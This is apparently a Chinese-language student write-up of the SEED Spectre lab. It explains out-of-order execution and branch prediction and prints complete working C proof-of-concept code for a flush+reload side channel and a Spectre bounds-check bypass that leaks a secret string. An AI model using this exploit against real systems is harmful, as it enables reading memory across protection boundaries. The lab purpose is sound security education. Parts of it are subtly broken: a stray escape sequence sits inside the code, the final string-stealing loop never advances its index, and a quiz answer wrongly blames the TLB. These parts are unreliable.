

# Out-of-Order Execution and Branch Prediction

为了提高运行效率，CPU具有两个重要特性：

- 乱序执行
- 分支预测

> 现代高性能 CPU 不再严格按照指令的原始顺序执行指令，而是允许乱序执行耗尽所有的执行单元。以提高效率

```c
size=10;
data = 0;
if (x < size) {
	data = data + 5;
}
```

根据我们之前的印象，如果x的值小于size，那么才会执行第五行代码，但是实际上，即是x的值大于等于size，第四行也会去执行

乱序执行是一种优化技术，允许 CPU 最大限度地利用其所有执行单元。CPU 没有严格按顺序处理指令，而是在所有所需资源都可用时立即并行执行指令。当当前操作的执行单元被占用时，其他执行单元可以提前运行

第2行涉及两个操作:

- 内存中加载 size 的值
- 将size值与 x 进行比较 

如果 size 不在 CPU 缓存中，那么读取该值之前可能需要数百个 CPU 时钟周期。现代 CPU 不会闲置，而是尝试预测if语句中的比较的结果，并根据估计执行分支。这种执行在比较结束之前就开始了，也即是乱序执行

在执行乱序执行之前，CPU 会存储寄存器的当前状态和值。当 size 的值最终到达时，CPU 将检查实际结果

- 如果预测正确，则提交预测执行，这个情况会获得显著的性能提高
- 如果预测错误，CPU 将恢复到保存状态，也即是乱序执行产生的所有结果将被丢弃，就像从未发生过一样。这就是为什么我们从外面看到3号线从未被执行

幽灵漏洞在于，处理器厂商忽略了分支预测对 CPU 缓存的影响。在乱序执行过程中，被引用的内存被提取到一个寄存器中，并存储在缓存中。厂商只是丢弃了乱序执行的结果，但是却没有丢弃对CPU缓存的影响


SpectreExperiment.c

```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n", i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  

  // RELOAD the probing array
  reloadSideChannel();

  return (0); 
}

```

CPU会记录过去采用的分支，然后利用这些过去的结果来预测 if 语句Speculative_execution中应该采用哪个分支。为了触发攻击，我们需要诱导CPU执行我们想要的分支

```c
  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

void victim(size_t x)
{
  if (x < size) {  // size值为10，因此下面语句每一次都会被执行
      temp = array[x * 4096 + DELTA];  
  }
}
```

在训练完之后，我们刷新size的缓存，从而使得后续的`victim(97)`调用中读取size值需要上百个时钟周期

之后刷新`0~256`的缓存，这会导致包括97在内所有数字不在缓存内

```c
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
```

之后执行victim(97)，按常理考虑`temp = array[97 * 4096 + DELTA];`语句不会被执行，因此97也不会在CPU cache中，但是我们实验结果表明97在cache中，因此该语句被执行了

> 关于为什么需要写成array[x * 4096 + DELTA]; 可以见我meltdown的一篇文章


quiz1：

>Comment out the line marked with P and execute again. Explain your observation. After you are
>done with this experiment, uncomment it, so the subsequent tasks are not affected

给_mm_clflush(&size);这一行代码加注释之后运行：


我们可以看到，如果size仍然在CPU cache中，那么可以快速获得size的值，就不会导致乱序执行，无法获得结果

quiz2:

> Replace Line √ with victim(i + 20); run the code again and explain your observation.


同样无法获得结果，说明CPU的分支预测训练是必要的

# The Spectre Attack

```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
char    *secret    = "Some Secret Value";   // define secret messege
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
        printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d(%c).\n",i, i);
    }
  } 
}
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);\x0A  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}

```


运行两次都得到了结果，秘密信息的第一个字母是S

# Improve the Attack Accuracy

由于缓存中的噪声的存在，我们的攻击结果有可能不准确

- CPU 有时会在缓存中加载额外的值，以期在以后某个时间点使用它
- 阈值不是很准确

为了提高精准度，可以使用统计技术。其思想是创建一个大小为256的得分数组，每个可能的秘密值对应一个元素。然后我们进行多次攻击。每次，如果我们的攻击程序说 k 是秘密(这个结果可能是错误的) ，我们把1加到分数[ k ]上。在多次运行攻击之后，我们使用得分最高的值 k 作为对秘密的最终估计。这将产生比基于单次运行的估计更可靠的估计

循环1000次，每次都会有一个最大hit值对应的结果，使用了一个全局静态数组score统计这1000次循环中出现最多的结果

quiz1：

You may observe that when running the code above, the one with the highest score is very likely to be
scores[0]. Please figure out why, and fix the code above, so the actual secret value (which is not
zero) will be printed out

main中1000次for循环都会调用`spectreAttack(index_beyond);`语句，从而触发`s = restrictedAccess(index_beyond);`语句的执行，此时restrictedAccess函数的返回值将会是0，而这个0值是没有被tlb刷新的

可以直接将score[0]赋值为0

quiz2：

Line 1 seems useless, but from our experience on SEED Ubuntu 20.04, without this line, the attack
will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. We have not figured out
the exact reason yet, so if you can, your instructor will likely give you bonus points. Please run the
program with and without this line, and describe your observations.

注释之后再16虚拟机中运行正常

# Steal the Entire Secret String

加一层循环即可

```c
for(int j=0;j<=20;j++)
{
  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0; 
  
  size_t index_beyond = (size_t)(secret - (char*)buffer);

  for (i = 0; i < 1000; i++) {
    printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }

  int max = 0;
  for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
}
```


